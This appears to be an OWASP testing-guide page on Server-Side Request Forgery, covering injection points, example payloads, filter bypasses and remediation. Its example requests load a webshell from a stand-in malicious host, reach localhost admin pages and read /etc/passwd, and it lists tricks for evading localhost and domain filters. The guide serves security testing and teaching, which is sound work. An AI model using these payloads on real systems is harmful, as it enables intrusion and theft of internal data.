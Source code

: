 # Testing for Server-Side Request Forgery

## Summary

Often web applications may have to interact with internal or external resources in order to provide certain functionality, with the expectation that only the service providing that functionality will be used, but often such functionality processes user data and if not handled properly it can open the door for injection attacks that are called Server-side Request Forgery (SSRF). A successful SSRF attack can grant the attacker access to restricted actions, internal services, or internal files within the application or the organization. In some cases it can even lead to Remote Code Execution (RCE).

## Test Objectives

- Identify injection points (External resource calls, API calls)
- Test if the SSRF is exploitable
- Asses the severity of the vulnerability

## How to Test

When testing for SSRF we are trying to trick the server into loading/writing unintended content. The most common test is for local and remote file inclusion, but there is another facet to SSRF, a trust relationship that often arises with server-side request forgery where the application server is able to interact with other back-end systems that are not directly reachable by users. These systems often have non-routable private IP addresses or are restricted to certain hosts. Since they are protected by the network topology, they often lack more sophisticated controls.

Such internal systems often contain sensitive data or functionality.

If we have the following request:

```bash
GET /page HTTP/1.0
Content-Type: application/x-www-form-urlencoded

page=about.php
```

We can try the following payloads:

Return the content of an external resource like a webshell.

```bash
GET /page HTTP/1.0
Content-Type: application/x-www-form-urlencoded

page=https://malicioussite.com/shell.php
```

Use the localhost/loopback interface to access content restricted to the host only. This mechanism implies that if you have access to the host then you have enough privileges to directly access the `admin` page.

These kind of trust relationships, where requests originating from the local machine are handled differently than ordinary requests, are often what makes SSRF into a critical vulnerability.

```bash
GET /page HTTP/1.0
Content-Type: application/x-www-form-urlencoded

page=http://localhost/admin  #Alternative http://127.0.0.1/admin
```

Fetch a local file

```bash
GET /page HTTP/1.0
Content-Type: application/x-www-form-urlencoded

page=file:///etc/passwd
```

All of the payloads above can apply to any type of HTTP request, and could also be injected into header and cookie values as well.
One important note on SSRF with POST requests is that the SSRF may also manifest in a Blind manner, because the application might not return anything immediately, that data might be used in other functionality such as PDF reports, invoice/order handling, etc. which are visible to employees/staff but not necessarily the end user or tester.

You can find more on Blind SSRF [here](https://portswigger.net/web-security/ssrf/blind), or in the [References section](#references)

### PDF Generators

There are some cases where server converts uploaded file to a pdf.Try injecting `<iframe>`, `<img>`, `<base>` or `<script>` elements or CSS url() functions pointing to internal services.

```html
<iframe src="file:///etc/passwd" width="400" height="400">
<iframe src="file:///c:/windows/win.ini" width="400" height=”400">
```

### Common Filter Bypass

Some applications block references to `localhost` and `127.0.0.1`, this can be circumvented by:

- Using alternative IP representation such as such as 2130706433, 017700000001, or 127.1 which evaluate to 127.0.0.1
- String obfuscation
- Registering your own domain that resolves to 127.0.0.1

Sometimes the application allows input that matches a certain expression, like a domain. That can be circumvented if the URL schema parser is not properly implemented.

- Using the `@` character: `https://expected-domain@attacker-domain`
- URL fragmentation with the `#` character: `https://attacker-domain#expected-domain`
- URL encoding
- Fuzzing
- Combinations of all of the above

You can find more payloads [here](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Request%20Forgery)

## Remediation

Some of the main mitigation techniques include implementing IP filtering and URL filtering. You can find out more on the
[OWASP Server Side Request Forgery Prevention Cheatsheet](https://cheatsheetseries.owasp.org/cheatsheets/Server_Side_Request_Forgery_Prevention_Cheat_Sheet.html)

## Tools

- Burpsuite
- ZAP

## References

- [SSRF Payloads](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Request%20Forgery)
- [Reading Internal Files Using SSRF Vulnerability](https://medium.com/@neerajedwards/reading-internal-files-using-ssrf-vulnerability-703c5706eefb)
- [Abusing the AWS Metadata Service Using SSRF Vulnerabilities](https://blog.christophetd.fr/abusing-aws-metadata-service-using-ssrf-vulnerabilities/)
- [OWASP Server Side Request Forgery Prevention Cheatsheet](https://cheatsheetseries.owasp.org/cheatsheets/Server_Side_Request_Forgery_Prevention_Cheat_Sheet.html)
- [SSRF](https://portswigger.net/web-security/ssrf)
- [Blind SSRF](https://portswigger.net/web-security/ssrf/blind)
